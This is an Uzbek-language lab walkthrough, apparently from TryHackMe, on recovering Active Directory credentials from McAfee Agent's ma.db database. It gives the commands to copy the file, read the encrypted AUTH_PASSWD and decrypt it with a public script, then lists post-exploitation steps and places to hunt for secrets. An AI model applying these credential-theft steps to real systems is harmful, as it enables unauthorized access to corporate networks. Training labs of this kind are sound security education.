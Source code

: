 

## 📍 1. Maqsad – `ma.db` faylidagi AD hisobini topish

**McAfee Endpoint Security** kabi korporativ ilovalar ko‘pincha tarmoqdagi boshqaruv tizimiga ulanish uchun **AD hisob ma’lumotlarini** saqlab qo‘yadi. Bu ma’lumotlar `ma.db` faylida shifrlangan holatda bo‘ladi.

---

## 🧭 2. `ma.db` faylini topish va yuklab olish

### 🔹 Fayl joylashuvi (Windows):

```
C:\ProgramData\McAfee\Agent\DB\ma.db
```

### 🔹 SSH orqali ulanish:

```bash
ssh thm@THMJMP1.za.tryhackme.com
```

### 🔹 Faylni o‘zingizning AttackBox ga SCP bilan ko‘chirish:

```bash
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
```

---

## 🧪 3. Faylni ochish – `sqlitebrowser` orqali

```bash
sqlitebrowser ma.db
```

➡️ **Browse Data** → **AGENT\_REPOSITORIES** jadvalini tanlang

### ❗ E’tibor beriladigan maydonlar:

* `DOMAIN`
* `AUTH_USER`
* `AUTH_PASSWD` (shifrlangan parol)

---

## 🔓 4. Parolni deshifrlash – Python skripti orqali

Sizda shifrlangan `AUTH_PASSWD` bo‘lishi kerak. Endi uni quyidagi skript bilan deshifrlaysiz:

### 🔹 Python2 versiyasi:

```bash
python2 mcafee_sitelist_pwd_decrypt.py <AUTH_PASSWD>
```

**Agar Python2 ishlamasa**, quyidagilarni bajaring:

### 🔹 GitHub'dan Python3 versiyasini yuklab oling:

```bash
git clone https://github.com/funoverip/mcafee-sitelist-pwd-decryption
cd mcafee-sitelist-pwd-decryption
python3 mcafee_sitelist_pwd_decrypt.py <AUTH_PASSWD>
```

---

## 🧠 5. Amalga oshirilgan foyda

Siz:

* Mahalliy tizimdagi konfiguratsiya faylidan
* **AD domen foydalanuvchi nomi va shifrlangan parolini**
* Deshifrlash orqali **to‘liq AD hisobini** qo‘lga kiritdingiz

Bu hisob yordamida siz:

* **Lateral Movement** (tarmoq ichida boshqa tizimlarga o‘tish)
* **Privilege Escalation**
* **AD Enumeration** (Active Directory strukturasini tahlil qilish) kabi hujumlar bilan davom etishingiz mumkin.

---

## 🛡 Tavsiya: Enumeration Checklist

Agar siz tizimga kirishni uddalagan bo‘lsangiz, quyidagilarni tekshiring:

* `C:\ProgramData`, `C:\Program Files`, va foydalanuvchi papkalari (`AppData`)
* IIS, Tomcat, Apache, VPN, Jenkins, Gitlab config fayllari
* Registry kalitlari: `HKLM\SYSTEM`, `HKLM\SOFTWARE`
* `.env`, `.xml`, `.json`, `.ini`, `.conf` fayllar
* Seatbelt, WinPEAS, PowerView kabi avtomatlashtirilgan vositalar
